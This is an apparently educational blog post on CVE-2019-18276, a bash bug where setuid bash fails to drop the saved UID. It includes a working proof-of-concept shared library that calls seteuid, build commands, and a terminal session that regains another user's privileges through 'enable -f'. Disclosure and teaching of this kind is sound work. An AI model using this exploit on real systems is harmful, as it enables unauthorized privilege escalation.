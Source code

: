 ```yaml
---
title: "CVE-2019-18276 - Suidbash"
date: 2019-11-28T23:13:39+01:00
draft: false
index: true
tags: ["cve", "bash", "privilege-escalation"]
categories: ["exploit", "security"]
comments: true
highlight: true
---
```


This exploit was initially based on an older vulnerability back in 1999 (`suidperl`). Now after 20 years in 2019 we found the same vulnerability in bash (`CVE-2019-18276`) discovered by Ian Pudney.

<!--more-->
### TL;DR
The root cause of this vulnerability is that bash doesn't handle setuid bit correctly, by default bash will drop the SUID privilege if the **Real UID** is different from the **Effective UID**, but he forget to drop also the **Saved UID**.

before we continue let's first define :

### Real UID vs Effective UID vs Saved UID

* **Real UserID** : It is the owner of the process.
* **Effective UserID** : By default it is the same as Real UserID, but sometimes it is changed to give more privilege to the user, e.g : setuid bit.
* **Saved UserID** : Sometimes when a privileged user (generally root) wants to do some non-privileged activities, this can be achieved by temporarily switching to non-privileged account.


### setuid() vs seteuid()

* **setuid()** : This function will change both the (`Real UserID`, `Effective UserID` and `Saved UserID`) of the current process to the specified value.
* **seteuid()** : This function will change the `Effective UserID` to the specified value. The effective user ID may be set to the value of the real user ID or the saved set-user-ID.

#### Example 
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
printf("UID = %d , eUID = %d \n",getuid(),geteuid());
system("id");
seteuid(1001);
printf("UID = %d , eUID = %d \n",getuid(),geteuid());
system("id");
}
```
After compiling this code we need to specify the setuid  bit on the binary and run it from a different user.
```shell
alice@suidbash:/CVE-2019-18276$ ls -la
total 24
drwxrwxrwt 1 alice  alice  4096 Nov 29 09:59 .
drwxr-xr-x 1 alice  alice  4096 Nov 28 21:42 ..
-rwsr-xr-x 1 bob   bob   8587 Nov 29 09:59 uid
alice@suidbash:/CVE-2019-18276$ ./uid 
UID = 1001 , eUID = 1000 
uid=1001(alice) gid=1001(alice) euid=1000(bob) groups=1000(bob),1001(alice)
UID = 1001 , eUID = 1001 
uid=1001(alice) gid=1001(alice) groups=1001(alice)
```
### /bin/bash
```shell
alice@suidbash:/CVE-2019-18276$ ls -la
total 964
drwxr-xr-x 2 alice  alice    4096 Nov 28 21:52 .
drwx------ 1 alice  alice    4096 Nov 28 22:04 ..
-rwsr-xr-x 1 bob   bob   959120 Nov 28 21:49 bash
```
As we can see the binary bash is set with the setuid bit, which mean that if `alice` user run this binary, she will get automatically `bob`'s privilege. However this is will not happen with bash, because bash by default drop automatically the privilege if the user didn't specify the `-p` option.

#### Example 
```shell
alice@suidbash:/CVE-2019-18276$ ./bash 
bash-4.2$ id
uid=1001(alice) gid=1001(alice) groups=1001(alice)

alice@suidbash:/CVE-2019-18276$ ./bash -p
bash-4.2$ id
uid=1001(alice) gid=1001(alice) euid=1000(bob) groups=1000(bob),1001(alice)
```
>  We are not sure if bash use `seteuid()` function to drop the privilege, but after some testing we figure out that the `Saved UID` didn't change.

### Attacks
bash doesn't handle setuid bit correctly, which makes us able to recover the dropped privilege. To exploit this vulnerability we need to call the `seteuid()` function in order to recover the Saved UID. However the problem here is we cannot exploit this by calling a binary to execute `seteuid()`, we need to call the `seteuid()` in the process runtime.

#### enable -f
`enable` is a bash function that can be used to enable and disable builtin shell commands, and with option `-f` we can load a shared object.

#### Exploit
```c
#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>
// gcc -c -fPIC pwn.c -o pwn.o
// gcc -shared -fPIC pwn.o -o libpwn.so
void __attribute__ ((constructor)) initLibrary(void){
    seteuid(1000); // The Saved UID that we want to recover
}
```
After compiling the code all what we need to do is :
```shell
alice@suidbash:/CVE-2019-18276$ ./bash 
bash-4.2$ id      
uid=1001(alice) gid=1001(alice) groups=1001(alice)
bash-4.2$ enable -f ./libpwn.so asd
bash: enable: cannot find asd_struct in shared object ./libpwn.so: ./libpwn.so: undefined symbol: asd_struct
bash-4.2$ id
uid=1001(alice) gid=1001(alice) euid=1000(bob) groups=1000(bob),1001(alice)
bash-4.2$ 
```
As you can see we have successfully recovered the dropped privilege.

#### Download:
To repeat all the steps :
```shell
amriunix@hunter:~$ docker run -it -u alice -h suidbash amriunix/cve-2019-18276 /bin/bash
alice@suidbash:/$ cd CVE-2019-18276/
alice@suidbash:/CVE-2019-18276$ ls -la
total 980
drwxr-xr-x 2 alice alice   4096 Nov 29 10:57 .
drwxr-xr-x 1 root  root    4096 Nov 29 11:22 ..
-rwsr-xr-x 1 bob   bob   959120 Nov 28 21:49 bash
-rwxr-xr-x 1 alice alice   7876 Nov 28 21:52 libpwn.so
-rw-r--r-- 1 alice alice    138 Nov 28 21:47 pwn.c
-rw-r--r-- 1 alice alice   1608 Nov 28 21:52 pwn.o
-rwsr-xr-x 1 bob   bob     8587 Nov 29 10:57 uid
-rw-r--r-- 1 root  root     206 Nov 29 10:57 uid.c
alice@suidbash:/CVE-2019-18276$ 
```

#### Sources:
* [liveoverflow](https://www.youtube.com/watch?v=-wGtxJ8opa8)
</br>